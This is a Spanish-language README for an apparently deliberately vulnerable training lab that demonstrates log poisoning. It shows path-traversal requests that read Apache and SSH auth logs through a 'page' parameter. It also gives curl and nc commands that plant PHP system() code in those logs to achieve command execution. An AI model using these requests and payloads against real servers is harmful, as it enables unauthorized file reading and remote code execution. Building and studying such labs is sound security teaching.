 ## 🚨 Log Poisoning (Log Poisoning-Lab)
- Aplicación vulnerable a log poisoning en la que el atacante se aprovecha de otra vulnerabilidad como es el **local file inclusion** para obtener ejecución remota de comandos.
- Se trata de una aplicación de noticias de ciberseguridad en la que existe un problema de sanitización, lo que lleva al atacante a leer logs tanto de la aplicación web como del servicio SSH en activo. 

El parámetro **page** empleado a la hora de ver las diferentes noticias existentes es manipulable de forma que podemos ir hacia atrás varios directorios (Directory Path Traversal).

En este ejemplo estamos leyendo el archivo de logs de apache: 

```sh
GET /article.php?page=../../../../var/log/apache2/access.log
```

Y con este otro logramos leer el archivo de logs del servicio ssh:

```sh
GET /article.php?page=../../../../var/log/auth.log
```

Si un atacante enviase una petición al servidor maliciosa con contenido en lenguaje PHP en la cabecera, posteriormente al consultar el archivo de log correspondiente ese código malicioso se ejecutaría:

```sh
curl http://{ip_servidor}:{puerto_servidor} -H "User-Agent: <?php system('whoami')?>"
```

El output del comando **whoami** se vería reflejado en el log, lo cual indica que se ha ejecutado:

![Resultado log de Apache](apache.png)

De la misma forma podemos hacerlo atentando los logs del servicio SSH:

```sh
echo '<?php system("whoami");?>' | nc {ip_servidor} {puerto_ssh_servidor}
```

Resultado en los logs de ssh:

![Resultado log de SSH](ssh.png)
